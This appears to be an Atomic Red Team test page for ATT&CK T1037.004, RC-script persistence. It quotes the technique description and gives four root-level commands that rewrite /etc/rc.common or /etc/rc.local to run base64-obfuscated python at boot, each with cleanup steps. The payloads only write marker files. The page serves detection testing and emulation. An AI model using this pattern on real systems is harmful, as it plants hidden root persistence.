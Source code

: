 # T1037.004 - Boot or Logon Initialization Scripts: Rc.common
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1037/004)
<blockquote>Adversaries may establish persistence by modifying RC scripts which are executed during a Unix-like system’s startup. These files allow system administrators to map and start custom services at startup for different run levels. RC scripts require root privileges to modify.

Adversaries can establish persistence by adding a malicious binary path or shell commands to <code>rc.local</code>, <code>rc.common</code>, and other RC scripts specific to the Unix-like distribution.(Citation: IranThreats Kittens Dec 2017)(Citation: Intezer HiddenWasp Map 2019) Upon reboot, the system executes the script's contents as root, resulting in persistence.

Adversary abuse of RC scripts is especially effective for lightweight Unix-like distributions using the root user as default, such as IoT or embedded systems.(Citation: intezer-kaiji-malware)

Several Unix-like systems have moved to Systemd and deprecated the use of RC scripts. This is now a deprecated mechanism in macOS in favor of [Launchd](https://attack.mitre.org/techniques/T1053/004). (Citation: Apple Developer Doco Archive Launchd)(Citation: Startup Items) This technique can be used on Mac OS X Panther v10.3 and earlier versions which still execute the RC scripts.(Citation: Methods of Mac Malware Persistence) To maintain backwards compatibility some systems, such as Ubuntu, will execute the RC scripts if they exist with the correct file permissions.(Citation: Ubuntu Manpage systemd rc)</blockquote>

## Atomic Tests

- [Atomic Test #1 - rc.common](#atomic-test-1---rccommon)

- [Atomic Test #2 - rc.common](#atomic-test-2---rccommon)

- [Atomic Test #3 - rc.local](#atomic-test-3---rclocal)

- [Atomic Test #4 - rc.local (FreeBSD)](#atomic-test-4---rclocal-freebsd)


<br/>

## Atomic Test #1 - rc.common
Modify rc.common

[Reference](https://developer.apple.com/library/content/documentation/MacOSX/Conceptual/BPSystemStartup/Chapters/StartupItems.html)

**Supported Platforms:** macOS


**auto_generated_guid:** 97a48daa-8bca-4bc0-b1a9-c1d163e762de






#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
sudo echo osascript -e 'tell app "Finder" to display dialog "Hello World"' >> /etc/rc.common
```






<br/>
<br/>

## Atomic Test #2 - rc.common
Modify rc.common

**Supported Platforms:** Linux


**auto_generated_guid:** c33f3d80-5f04-419b-a13a-854d1cbdbf3a






#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
filename='/etc/rc.common';if [ ! -f $filename ];then sudo touch $filename;else sudo cp $filename /etc/rc.common.original;fi
printf '%s\n' '#!/bin/bash' | sudo tee /etc/rc.common
echo "python3 -c \"import os, base64;exec(base64.b64decode('aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBtb2RpZnlpbmcgcmMuY29tbW9uID4gL3RtcC9UMTAzNy4wMDQucmMuY29tbW9uJykK'))\"" | sudo tee -a /etc/rc.common
printf '%s\n' 'exit 0' | sudo tee -a /etc/rc.common
sudo chmod +x /etc/rc.common
```

#### Cleanup Commands:
```bash
origfilename='/etc/rc.common.original';if [ ! -f $origfilename ];then sudo rm /etc/rc.common;else sudo cp $origfilename /etc/rc.common && sudo rm $origfilename;fi
```





<br/>
<br/>

## Atomic Test #3 - rc.local
Modify rc.local

**Supported Platforms:** Linux


**auto_generated_guid:** 126f71af-e1c9-405c-94ef-26a47b16c102






#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
filename='/etc/rc.local';if [ ! -f $filename ];then sudo touch $filename;else sudo cp $filename /etc/rc.local.original;fi
printf '%s\n' '#!/bin/bash' | sudo tee /etc/rc.local
echo "python3 -c \"import os, base64;exec(base64.b64decode('aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBtb2RpZnlpbmcgcmMubG9jYWwgPiAvdG1wL1QxMDM3LjAwNC5yYy5sb2NhbCcpCgo='))\"" | sudo tee -a /etc/rc.local
printf '%s\n' 'exit 0' | sudo tee -a /etc/rc.local
sudo chmod +x /etc/rc.local
```

#### Cleanup Commands:
```bash
origfilename='/etc/rc.local.original';if [ ! -f $origfilename ];then sudo rm /etc/rc.local;else sudo cp $origfilename /etc/rc.local && sudo rm $origfilename;fi
```





<br/>
<br/>

## Atomic Test #4 - rc.local (FreeBSD)
Modify rc.local

**Supported Platforms:** Freebsd


**auto_generated_guid:** 2015fb48-8ab6-4fbf-928b-0b62de5c9476






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
filename='/etc/rc.local';if [ ! -f $filename ];then sudo touch $filename;else sudo cp $filename /etc/rc.local.original;fi
printf '%s\n' '#\!/usr/local/bin/bash' | sudo tee /etc/rc.local
echo 'python3.9 -c "import os, base64;exec(base64.b64decode(\"aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBtb2RpZnlpbmcgcmMubG9jYWwgPiAvdG1wL1QxMDM3LjAwNC5yYy5sb2NhbCcpCgo=\"))"' | sudo tee -a /etc/rc.local
printf '%s\n' 'exit 0' | sudo tee -a /etc/rc.local
sudo chmod +x /etc/rc.local
```

#### Cleanup Commands:
```sh
origfilename='/etc/rc.local.original';if [ ! -f $origfilename ];then sudo rm /etc/rc.local;else sudo cp $origfilename /etc/rc.local && sudo rm $origfilename;fi
```





<br/>
